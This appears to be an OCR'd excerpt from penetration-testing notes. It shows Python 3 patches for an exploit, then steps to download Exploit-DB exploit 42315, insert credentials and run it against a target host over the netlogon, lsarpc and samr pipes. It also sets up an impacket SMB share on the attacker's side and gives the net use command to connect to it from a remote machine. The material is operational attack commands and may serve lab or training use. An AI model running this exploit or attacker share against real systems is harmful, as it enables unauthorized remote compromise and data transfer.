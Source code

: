     Line.80
    # transData += ('\x00' * padLen) + data
    transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)
    
    Line.231
    # req = str(pkt)
    req = pkt.getData()
    return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553
    
    Line.381
    # data += resp['Data'][1:]
    data += resp['Data'][1:].decode()
    ```
    
3. **Download exploit.py**
    ```sh
    wget -O exploit.py https://www.exploit-db.com/exploits/42315
    
    # Convert DOS to UNIX
    dos2unix exploit.py
    ```
    
4. **Edit the Credentials in exploit.py**
    ```sh
    ...
    username = "username"
    password = "password"
    ...
    
    ```
    
5. **Run the script**
    ```sh
    python exploit.py <target-ip> netlogon
    python exploit.py <target-ip> lsarpc
    python exploit.py <target-ip> samr
    ```

## Launch SMB Server
```bash
impacket-smbserver -smb2support share .

# Set username/password
impacket-smbserver -smb2support -username "user" -password "pass" share .
```
The SMB server can be accessed at `<local-ip>/share/`

### Access from Remote Machine
```bash
net use \\<local-ip>\share /u:user pass
```
